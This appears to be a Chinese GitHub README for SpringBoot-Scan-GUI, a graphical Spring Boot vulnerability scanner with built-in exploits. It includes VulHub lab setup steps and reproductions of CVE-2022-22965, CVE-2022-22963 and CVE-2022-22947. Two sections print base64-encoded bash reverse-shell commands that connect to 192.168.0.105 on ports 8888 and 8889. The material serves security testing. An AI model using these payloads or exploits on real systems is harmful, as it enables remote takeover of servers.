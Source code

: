![SpringBoot-Scan-GUI](https://socialify.git.ci/13exp/SpringBoot-Scan-GUI/image?font=Bitter&forks=1&issues=1&language=1&name=1&owner=1&pattern=Diagonal%20Stripes&stargazers=1&theme=Dark)

开源工具 [SpringBoot-Scan](https://github.com/AabyssZG/SpringBoot-Scan) 的GUI图形化版本，对你有用的话麻烦点个Star哈哈~

![GUI](https://github.com/AabyssZG/SpringBoot-Scan/raw/main/pic/GUI.png)

**注意：本工具内置相关漏洞的Exp，杀软报毒属于正常现象！**

## Windows使用

```
python3 SpringBoot-Scan-GUI.py
```

也可以直接下载执行release打包好的exe程序

## Linux使用

```
python3 SpringBoot-Scan-GUI-Linux.py
```

或者使用 `wine` 来执行：

```
sudo wine SpringBoot-Scan-GUI.exe
```

## VulHub 漏洞测试环境搭建

```
git clone https://github.com/vulhub/vulhub.git
```

### 安装Docker环境

```
sudo apt-get install docker.io
sudo apt install docker-compose
```

### 搭建CVE-2022-22965

```
cd /vulhub/CVE-2022-22965
sudo docker-compose up -d
```

### 搭建CVE-2022-22963

```
cd /vulhub/CVE-2022-22963
sudo docker-compose up -d
```

### 搭建CVE-2022-22947

```
cd /vulhub/CVE-2022-22947
sudo docker-compose up -d
```

如果报错，自行修改 `.yml` 文件中映射的端口号

## 漏洞复现演示

### 一、CVE-2022-22965

#### VulHub 环境复现

![image](https://user-images.githubusercontent.com/73600604/218236128-21bf37e5-e8c2-45de-9f9e-50fbe8ad1574.png)
![image](https://user-images.githubusercontent.com/73600604/218236233-68986684-4698-46d0-a36e-d95d37a2620b.png)
![image](https://user-images.githubusercontent.com/73600604/218236243-0d6b2eb4-6b2d-4c88-91ea-be4a5760675d.png)

**内置shell**
![image](https://user-images.githubusercontent.com/73600604/218236608-102b9342-1f92-4268-88de-9f35c5de22ce.png)

**aabysszg-shell**
![image](https://user-images.githubusercontent.com/73600604/218236258-348c30f4-7a5e-43e9-8f12-0f4eb1f27e99.png)

**13exp-shell**

![image](https://user-images.githubusercontent.com/73600604/218236580-097727c0-cd79-47bc-af8a-3b509324ec3e.png)

#### 春秋云境 环境复现

![image](https://user-images.githubusercontent.com/73600604/218236469-833740d2-b754-46d8-848d-89236f5ec72b.png)

**内置shell**
![image](https://user-images.githubusercontent.com/73600604/218236715-9815addd-2502-4e6c-a11c-5ccd054a57ac.png)

**13exp-shell**
![image](https://user-images.githubusercontent.com/73600604/218236734-655bcfe4-0eac-433d-aa66-07ad51af9fbb.png)

**aabysszg-shell**
![image](https://user-images.githubusercontent.com/73600604/218236497-11401635-b171-4536-9faa-f431324612a9.png)
![image](https://user-images.githubusercontent.com/73600604/218236516-71dae6a1-3f59-459c-82c8-b49c3d191f6c.png)

### 二、CVE-2022-22963

#### VulHub 环境复现

准备反弹shell：

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA1Lzg4ODggMD4mMQ==}|{base64,-d}|{bash,-i} || (Base64)
```

编码内容→ `bash -i >& /dev/tcp/192.168.0.105/8888 0>&1`

Kali监听对应端口：
![image](https://user-images.githubusercontent.com/73600604/218240588-a377065e-c4fc-403c-950d-0e688b7e446c.png)

**漏洞利用**
![image](https://user-images.githubusercontent.com/73600604/218240553-009588c6-be8f-4bbd-9fe8-d3e8cc001795.png)
![image](https://user-images.githubusercontent.com/73600604/218240609-246afc87-e671-4565-bf68-f3dda7360961.png)

#### 春秋云境 环境复现

![image](https://user-images.githubusercontent.com/73600604/218236995-3ac37c9f-f7e6-478a-a72d-f7951c547047.png)

### 三、CVE-2022-22947

#### VulHub 环境复现

同样准备反弹shell

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA1Lzg4ODkgMD4mMQ==}|{base64,-d}|{bash,-i} || (Base64)
```

编码内容→ `bash -i >& /dev/tcp/192.168.0.105/8889 0>&1`

kali监听对应端口：
![image](https://user-images.githubusercontent.com/73600604/218240722-f36a7ac5-b2c3-4043-9b9e-54be43052799.png)

**漏洞利用**
![image](https://user-images.githubusercontent.com/73600604/218240756-52bb0691-bcbe-4057-b502-716d86aa2a1d.png)
![image](https://user-images.githubusercontent.com/73600604/218241387-1c6b9198-3e76-434b-8a8d-96533613cd26.png)

#### 春秋云境 环境复现

![image](https://user-images.githubusercontent.com/73600604/218237116-b3897e7c-2c88-45c6-97ad-276c3e7be052.png)
![image](https://user-images.githubusercontent.com/73600604/218257247-eb1ec709-dcaa-4855-8890-c263c15bc890.png)

## 项目Star统计

![star](https://starchart.cc/13exp/SpringBoot-Scan-GUI.svg)
